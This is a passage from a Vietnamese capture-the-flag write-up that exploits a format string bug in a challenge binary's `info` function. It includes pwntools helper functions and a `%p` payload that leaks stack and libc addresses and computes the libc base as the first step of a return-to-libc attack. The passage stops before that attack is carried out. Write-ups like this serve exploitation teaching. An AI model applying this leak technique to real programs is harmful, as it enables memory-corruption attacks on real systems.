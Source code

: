 Với lựa chọn `account_action`, chương trình có 4 chức năng: 
- deposit
- withdraw
- info
- logout 

Xem qua một lượt các hàm, ta thấy hàm `info` có Format String Bug. 
```c
int info()
{
  printf(ptr_fullname);                         // fsb
  return printf("Money: %u\n", total_money);
}
```

### Format String Bug 

Đề bài cho chúng ta Dockerfile, hướng tiếp cận của mình là tận dụng bug trên để Return To Libc. 

Mình định nghĩa một số hàm để thao tác nhanh với chương trình như sau
```python
def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)
```

#### Leak stack & libc 
Bước đầu tiên, chúng ta sẽ đi tạo một account với fullname là `payload` nhằm leak được các giá trị như stack, libc. 

```python
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```
